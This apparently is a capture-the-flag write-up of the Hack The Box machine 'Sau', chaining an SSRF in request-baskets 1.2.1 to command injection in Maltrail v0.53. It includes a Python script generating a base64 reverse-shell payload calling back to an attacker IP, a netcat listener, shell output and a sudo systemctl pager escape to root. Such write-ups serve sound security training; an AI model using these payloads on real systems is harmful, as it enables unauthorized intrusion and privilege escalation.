









# Sau

## Enumeration(nmap):
Initial: `nmap -vv -sS -oN nmap/init -A 10.129.30.180`
Found open 
	- 22 ssh
	- 80 http
	- 55555 unknown

---

HTTP Service on port 80 is unreachable so i tried to access
the service running on 55555 to see if it's a website and success.
The services hosted is an http request inspector


## Research
Before trying anything else i saw at that the footer contains 
the software and the version used `Powered by request-baskets | Version: 1.2.1`
so i just searched to see if any public CVE's exist. I went 
to the github repo of [request baskets](https://github.com/darklynx/request-baskets)
and straight up to the issues and sure enough a [CVE](https://github.com/entr0pie/CVE-2023-27163/tree/main) was present


So an SSRF vulnerability (CVE-2023-27163) is present and since i saw open port 80
but cannot access it, i asume it blocks external ips
or just has a whitelist so i attempt to take a sneek
peek 

## Exploitation



The service running on port 80 is Powered by Maltrail (v0.53) 
which after searching has [Unauthenticated OS Command Injection Maltrail <= v0.54 (Did not recieve a CVE)](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/)
After locating a [POC](https://github.com/spookier/Maltrail-v0.53-Exploit) written in python,
i only took the curl_cmd function cause in order to get rce i have 
to chain the two vulnerabilities i found, i only want the data 
porivided by the function to use as url parameters,
in a sense this is trial and error cause i don't actualy 
know if the service accepts the data as url parameters
so this was done blindly but let's attempt it

```py
import base64

def main():
	my_ip = "10.10.14.87"
	my_port = 4444
	target_url = "http://127.0.0.1/login"
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()
	parameters = f"username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`"
	print(parameters)

if __name__ == "__main__":
	main()
```

## RCE:


After i generated the payload i went to [CyberChef](https://gchq.github.io/CyberChef/) and URL-Encoded it


Before executing the exploit i start a netcat listener on port 4444
```sh
nc -l 4444
```
And.....



Now i'm able to execute command on the remote machine 
within the terminal so i go and retrieve the flag.
```sh
➜  Sau nc -l 4444
$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
$
$ ls -la /home/puma
ls -la /home/puma
total 32
drwxr-xr-x 4 puma puma 4096 Jun 19  2023 .
drwxr-xr-x 3 root root 4096 Apr 15  2023 ..
lrwxrwxrwx 1 root root    9 Apr 14  2023 .bash_history -> /dev/null
-rw-r--r-- 1 puma puma  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 puma puma 3771 Feb 25  2020 .bashrc
drwx------ 2 puma puma 4096 Apr 15  2023 .cache
drwx------ 3 puma puma 4096 Apr 15  2023 .gnupg
-rw-r--r-- 1 puma puma  807 Feb 25  2020 .profile
lrwxrwxrwx 1 puma puma    9 Apr 15  2023 .viminfo -> /dev/null
lrwxrwxrwx 1 puma puma    9 Apr 15  2023 .wget-hsts -> /dev/null
-rw-r----- 1 root puma   33 Dec 30 18:11 user.txt
$ cat /home/puma/user.txt
cat /home/puma/user.txt
HTB{Us3R_FL4G_R3dUct3d}
$
```

In order to enumerate and attempt to escalate my privileges
i first want to have a full tty shell

## Full TTY:
[Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```


```sh
puma@sau:/opt/maltrail$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
puma@sau:/opt/maltrail$
```

Okay so i didn't have to do much digging the hard part is over
now when executing this command you will be prompted to an environment 
like vim/less so the only thing i have to do is `!` execute `sh` and since
i run the command with sudo the resulting shell will have root user privileges.

 
```sh
# cd /root
cd /root
# ls
ls
go  root.txt
# cat root.txt
cat root.txt
HTB{R00t_FL4G_R3dUct3d}
#
```


# Resources:
https://github.com/darklynx/request-baskets/issues/91
https://github.com/entr0pie/CVE-2023-27163/tree/main
https://github.com/spookier/Maltrail-v0.53-Exploit
https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/
